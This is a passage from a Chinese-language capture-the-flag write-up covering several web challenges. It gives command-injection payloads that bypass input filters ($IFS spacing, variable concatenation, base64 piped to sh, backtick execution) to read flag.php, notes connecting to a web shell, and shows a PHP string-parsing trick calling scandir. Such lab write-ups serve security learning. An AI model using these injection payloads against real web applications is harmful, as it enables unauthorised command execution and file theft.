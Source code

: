 可以看到确实过滤了很多东西

### 1）拼接

```
?ip=1;a=g;cat$IFS$1fla$a.php;
```

### 2)base64

```
echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|sh
```

其中Y2F0IGZsYWcucGhw是cat flag.php的base64编码，之后用base64 -d命令解码

### 3）内敛绕过(NB)

```
?ip=111;cat$IFS$1`ls`
```

就是将反引号内命令的输出作为输入执行。



## 0xB.[极客大挑战 2019]Knife

菜刀连一下就OK

## 0xC.[RoarCTF 2019]Easy Calc

这题用到的知识点：**PHP的字符串解析特性**

**可以先查看根目录下文件：**

```
?%20num=1;var_dump(scandir(chr(47)))
```

![image-20210415181858484](未命名.assets/image-20210415181858484.png)

